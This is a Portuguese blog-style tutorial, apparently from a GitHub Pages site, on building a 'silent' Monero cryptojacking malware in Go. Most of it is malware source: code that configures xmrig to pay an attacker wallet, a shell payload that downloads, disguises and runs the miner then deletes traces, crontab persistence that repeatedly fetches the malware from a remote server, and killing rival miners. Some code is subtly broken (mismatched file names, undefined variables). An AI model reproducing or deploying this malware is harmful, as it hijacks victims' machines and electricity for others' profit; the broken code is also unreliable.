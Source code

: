 ```yaml
---
layout: post
title:  "Creating a silent mining malware with Go"
date:   2022-08-10 01:51:18 -0300
categories: ["Cyber Security"]

---
```

Com a popularidade das criptomoedas investir na mineração desses ativos certamente foi algo que passou pela cabeça de muitas pessoas, mas os altos custos de hardware e de energia fez com que essa atividade fosse inviável ou pouco rentável para muitas pessoas. Mas e se você pudesse apenas receber os lucros da mineração, sem se preocupar com os gastos em hardware e energia, e além disso usar centenas ou milhares de computadores para isso? Foi isso que motivou cyber criminosos a criar botnets com várias máquinas infectadas com esse tipo de malware conhecido como cryptojacking.


<i>Esse artigo foi escrito únicamente para fins de aprendizado para entusiastas ou profissionais de cybersegurança.</i>


## Etapa 1 - Criando o arquivo de configuração
Nessa primeira etapa iremos criar algumas configurações necessárias para o minerador funcionar.
```go
package main

import (
	"encoding/json"
	"io/ioutil"
	"os/exec"
)
// Aqui a gente define duas estruturas com algumas 
// configurações basicas do xmrig, não é importante entender essa parte.
type Config struct {
	Autosave   bool   `json:"autosave"`
	Cpu        bool   `json:"cpu"`
	Opencl     bool   `json:"opencl"`
	Background bool   `json:"background"`
	Cuda       bool   `json:"cuda"`
	Pools      []Pool `json:"pools"`
	Donate     int    `json:"donate-level"`
}

type Pool struct {
	Url       string `json:"url"`
	User      string `json:"user"`
	Keepalive bool   `json:"keepalive"`
	Tls       bool   `json:"tls"`
}

// Com essas duas estruturas declaradas podemos criar nossa 
// função que vai gerar um arquivo com nossas configurações:
func writeConfig() {
	wallet := "attackers_wallet_here" // aqui vai sua monero wallet

	config := Config{
		Autosave:   false,
		Cpu:        true,
		Opencl:     true,
		Background: true,
		Cuda:       false,
		Donate:     1,
		Pools: []Pool{
			{
				Url:       "pool.minexmr.com:443",
				User:      wallet,
				Keepalive: true,
				Tls:       true,
			},
		},
	}

	file, _ := json.MarshalIndent(config, "", " ")
  
  // escreve as configurações eme um arquivo
	_ = ioutil.WriteFile("config.json", file, 0644)
}
```


## Etapa 2 - Minerando
Antes de montar o payload precisamos pegar a url de download do minerador, podemos encontra-lo nas releases do próprio repositório do <a href="https://github.com/xmrig/xmrig/releases/tag/v6.16.3">xmrig</a>.

```go
func getMiner() {
  // guardamos a url do xmrig em uma variável
  minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"
}
```

Em seguida iremos montar o nosso payload em shellscript:

```sh
# tenta baixar o minerador usando wget
wget <xmrig_link>
# tenta baixar o minerador usando curl
curl -L <xmrig_link> 
# descompacta o minerador
tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz;
# move o arquivo de configuração, que criamos antes, para dentro da pasta do minerador
mv config.json xmrig-6.16.3; 
# renomeia o executável xmrig para um nome menos suspeito
cd xmrig-6.16.3; 
mv xmrig x01service;
# executa o minerador
./x01service; 
# espera o minerador executar e em seguida remove todos os arquivos referentes ao malware.
pid=$!; 
wait $pid; cd ..; 
rm xmrig-6.16.3-linux-static-x64.tar.gz;
pid=$!; 
wait $pid;
rm -R xmrig-6.16.3;
pid=$!;
wait $pid;
rm x01badMin3r;
```

Agora copiamos todo esse payload e colocamos dentro de uma string na nossa função getMiner, substituindo o xmrig_link pela váriavel minerLink que criamos anteriormente.

Em seguida o malware vai criar um arquivo .sh com esse payload dentro, dar permissão, e executar ele na máquina infectada.

```go
func getMiner() {
  minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"

  payload := "wget " + minerLink + "; curl -L " + minerLink + "; tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz; mv config.json xmrig-6.16.3; cd xmrig-6.16.3; mv xmrig x01service; ./x01service; pid=$!; wait $pid; cd ..; rm xmrig-6.16.3-linux-static-x64.tar.gz; pid=$!; wait $pid; rm -R xmrig-6.16.3; pid=$!; wait $pid; rm x01badMin3r;"

// transforma o payload em um array de bytes
  data := []byte(payload)

// cria o arquivo .sh
	ioutil.WriteFile("x01badMin3r.sh", data, 0644)

// da permissão e executa o arquivo .sh na maquina infectada
	exec.Command("chmod", "777", "k4yn.sh").Output()
	exec.Command("chmod", "+x", "k4yn.sh").Output()
	exec.Command("/bin/sh", "k4yn.sh").Output()
}
```

Apenas compilando esse código e executando na maquina infectada ela já vai começar a minerar monero e mandar para a carteira do atacante, mas vamos adicionar algumas outras funcionalidades.

## Etapa 3 - Persistência
Para esse passo você vai precisar hospedar seu malware em algum lugar.

Em seguida usaremos o crontab para fazer a persistência. 

O crontab basicamente é um scheduler que realiza alguma ação em determinado tempo, nesse caso usaremos ele para de minuto em minuto executar um script que baixa e executa novamente nosso malware caso o minerador não esteja mais minerando.

<i>Importante lembrar que o crontab normalmente funciona apenas no Linux</i>

```go
func persistence() {
	binpath:= "http://<server_ip>/<your_malware_name>"

	// script que cria o scheduler do crontab caso ainda não exista
	cr0nt := "if ! crontab -l | grep -q /tmp/cR0ntSc.sh  > /dev/null; then (crontab -l 2>/dev/null; echo \"* * * * * /tmp/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /var/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /mnt/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /root/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /dev/cR0ntSc.sh\") | crontab -; else ls -a; fi"

	// script que será executado pelo crontab caso o minerador pare de minerar
	cr0nscript := "cd /tmp  cd /var/run  cd /mnt  cd /root  cd /; wget " + binpathaces + "; curl -O " + binpathaces + "; chmod +x *; ./x01badMin3r"

	// cria, da permissão, executa e remove os scripts criados 
	ioutil.WriteFile("cR0nt.sh", data1, 0644)
	ioutil.WriteFile("cR0ntSc.sh", data2, 0644)

	exec.Command("chmod", "777", "cR0nt.sh").Output()
	exec.Command("chmod", "+x", "cR0nt.sh").Output()
	exec.Command("chmod", "+777", "cR0ntSc.sh").Output()
	exec.Command("chmod", "+x", "cR0ntSc.sh").Output()
	exec.Command("/bin/sh", "cR0nt.sh").Output()
	exec.Command("rm", "cR0nt.sh").Output()
}
```

## Etapa 4 - Eliminando a concorrência e juntando as funções
Antes de juntarmos as funções na ordem correta vamos executar um comando que confere se já tem algum minerador xmrig na máquina infectada, se sim finaliza o processo.


```go
func main() {
	exec.Command("sudo", "pkill", "-9", "-f", "xmrig").Output()
	writeConfig()
	persistence()
	getMiner()
}
```

Finalizamos todas as funções do nosso simples malware, agora é só compilar e testar em alguma máquina que você tenha permissão ;)
